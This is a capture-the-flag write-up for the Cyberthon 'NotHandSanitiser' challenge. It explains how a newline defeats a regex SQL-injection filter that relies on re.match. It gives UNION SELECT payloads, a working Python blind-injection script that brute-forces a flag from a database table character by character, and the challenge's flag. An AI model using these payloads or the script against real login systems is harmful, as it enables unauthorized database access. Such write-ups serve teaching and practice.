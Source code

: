 # NotHandSanitiser™
Written by Halogen
## Problem Statement
> APOCALYPSE has recently implemented a security feature called NotHandSanitizer™ to secure their [member login portal](http://chals.cyberthon22f.ctf.sg:40401/).  
>   
> We heard that there's a flag somewhere in their database, but we can't seem to find a working attack vector since SQL Injections seem impossible due to NotHandSanitizer™. Perhaps you could take a look for us?

## Provided files
[main.py](./main.py)
## Solution
At first sight, one assumes that this is a SQL filter bypass, where the filter function is found in the code here
```py
def is_sqli(check):  # NotHandSanitizer™ SQL Injection Sanitizer
    m = re.match(
        r".*([\[\]\{\}:\\|;?!~`@#$%^&*()_+=-]|[ ]|[']|[\"]|[<]|[>]).*",
        check,
        re.MULTILINE,
    )
    if m is not None:
        return True
    return False
```
But, the filter is a regex pattern checked by `re.match` in python.
We see that there is a big problem with that, it only checks from the start.
By inserting a new line, we instantly bypass the filter, and we can inject SQL code as per normal.
With our ability to do SQL injection again, we can just log in as admin.

<u>Payload</u>
```
username = '\n UNION SELECT 'admin'--
password = whatever
```

However that does nothing, and only returns a single string.
This is when one should realise that we must brute force ~~(Not breaking rules here)~~ the flag.
We do this by testing characters for each position and constructing the flag there.
We can do that because the code showed where the flag is stored, in another table ("flag") as its only entry.
Thus we refine our payload like so

<u>Payload</u>
```
username = '\n UNION SELECT 'admin' WHERE SUBSTR(SELECT flag from flags, <pos>, 1) = '<chr>' --
password = whatever
```
where `<pos>` is the position of the character to test and `<chr>` is the character to test.

Now we make a simple script to brute force the flag.
```py
import string, requests

# The Charset of the flag
character_set = string.ascii_letters + string.digits + "}{_"
def checker(pos, char):
    return "Login failed!" not in requests.post(
        url = "http://chals.cyberthon22f.ctf.sg:40401/login/", # URL to login to
        data = {
            "username": f"\n' UNION SELECT 'admin' WHERE SUBSTRING((SELECT flag from flags), {pos}, 1) = '{char}'; --", # Refer to above
            "password": "whatever" # No one cares about you password
        }
    ).text # Gets the text for checking

flag = ""
while True:
    for char in character_set:

        # Check if we managed to login, if no then character is wrong
        if not checker(len(flag) + 1, char): continue

        # Correct Character so we add to flag and move on
        flag += char
        print(flag)
        break # Character of current iteration found, go to next one

    else: # Ran out of characters, we break
        break

    # End of flag so break
    if flag[-1] == "}":
        break
```

Flag: `Cyberthon{th15_54n1t1z3r_15_4_d15gr4c3_t0_s4n1t1z3r5}`
